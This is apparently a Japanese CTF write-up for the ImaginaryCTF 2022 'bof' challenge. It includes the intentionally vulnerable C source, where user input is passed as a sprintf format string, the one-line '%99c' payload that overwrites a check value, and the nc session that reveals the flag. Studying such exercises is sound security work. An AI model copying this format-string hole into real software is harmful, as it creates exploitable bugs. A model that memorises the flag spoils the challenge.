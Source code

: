 ```yaml
---
layout: post
title: "[pwn] bof (100 pts, 104 solved)"
published : true
tags: CTF WriteUps "ImaginaryCTF 2022" pwn bof
---
```

## Description
Can you bof me?

## Attachments
https://imaginaryctf.org/r/naCsv#bof https://imaginaryctf.org/r/7ngbn#bof.c
nc bof.chal.imaginaryctf.org 1337

```c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);
  sprintf(str.buf, temp);

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```

## WriteUp
`fgets(temp, 5, stdin);`では、標準入力は5文字に制限されている。
しかしながら、`sprintf(str.buf, temp);`とあり、フォーマット文字列が使用できる。`%99c`を与えることで、99文字が書き込まれたこととなり、0xdeadbeefを上書きできる。

```sh
┌──(parrot㉿parrot)-[/ctf/ctf-event/ImaginaryCTF 2022/pwn/bof]
└─$ nc bof.chal.imaginaryctf.org 1337

== proof-of-work: disabled ==
Enter your string into my buffer:
%99c                                                                             ictf{form4t_strings_4re_c00l_051c94e1}
```
